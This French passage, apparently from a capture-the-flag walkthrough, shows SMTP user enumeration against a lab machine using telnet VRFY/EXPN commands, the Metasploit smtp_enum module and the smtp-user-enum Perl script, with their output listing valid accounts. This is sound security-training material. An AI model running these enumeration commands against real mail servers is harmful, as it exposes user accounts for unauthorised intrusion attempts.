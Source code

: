 
Il est possible de vérifier à l'aide du protocole SMTP si ces logins sont valides, et s'il s'agit de comptes Unix valides. En effet, [le protocole SMTP](https://tools.ietf.org/html/rfc821#page-9) embarque les commandes ```VRFY``` (Verify) et ```EXPN``` (Expand) qui, pour un compte utilisateur donné, vont respectivement vérifier si ce compte existe et s'il existe une liste de diffusion associée à ce compte utilisateur.

```console
root@blinils:~# telnet 192.168.56.102 25
Trying 192.168.56.102...
Connected to 192.168.56.102.
Escape character is '^]'.
220 localhost.localdomain ESMTP Sendmail
EXPN bdio
250 2.1.5 <bdio@localhost.localdomain>
VRFY bdio
250 2.1.5 <bdio@localhost.localdomain>
VRFY ctf8
550 5.1.1 ctf8... User unknown
quit
221 2.0.0 localhost.localdomain closing connection
Connection closed by foreign host.
```

À l'aide du module __Metasploit__ [smtp_enum](https://www.offensive-security.com/metasploit-unleashed/scanner-smtp-auxiliary-modules/), il est possible de tester très rapidement si les comptes récupérés précédemment sont valides ou non.

```console
msf > use auxiliary/scanner/smtp/smtp_enum
msf auxiliary(scanner/smtp/smtp_enum) > set USER_FILE drupal_users.txt
USER_FILE => drupal_users.txt
msf auxiliary(scanner/smtp/smtp_enum) > set RHOSTS 192.168.56.102
RHOSTS => 192.168.56.102
msf auxiliary(scanner/smtp/smtp_enum) > run

[*] 192.168.56.102:25     - 192.168.56.102:25 Banner: 220 localhost.localdomain ESMTP Sendmail
[+] 192.168.56.102:25     - 192.168.56.102:25 Users found: bdio, dhart, gconnor, gprune, hplink,
jalderman, jgoldman, jgrimes, jharraway, jingersol, jstone, mswanson, sholden, shunter, sloreman,
spinkton, sswiney, tmaloney, xbruce
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Ça marche aussi sans Metasploit, grâce au script [__smtp-user-enum__](https://github.com/pentestmonkey/smtp-user-enum) écrit en Perl, et même si le rendu n'est pas tip top.

```console
root@blinils:~# perl smtp-user-enum.pl -M VRFY -U drupal_users.txt -t 192.168.56.102

--snip--
######## Scan started at Sat Dec  1 11:11:11 2018 #########
exists.56.102: tmaloney
exists.56.102: sloreman
exists.56.102: xbruce
exists.56.102: mswanson
exists.56.102: jstone
exists.56.102: shunter
exists.56.102: jingersol
exists.56.102: jgrimes
exists.56.102: dhart
exists.56.102: gprune
exists.56.102: jalderman
exists.56.102: bdio
exists.56.102: jgoldman
exists.56.102: hplink
exists.56.102: gconnor
```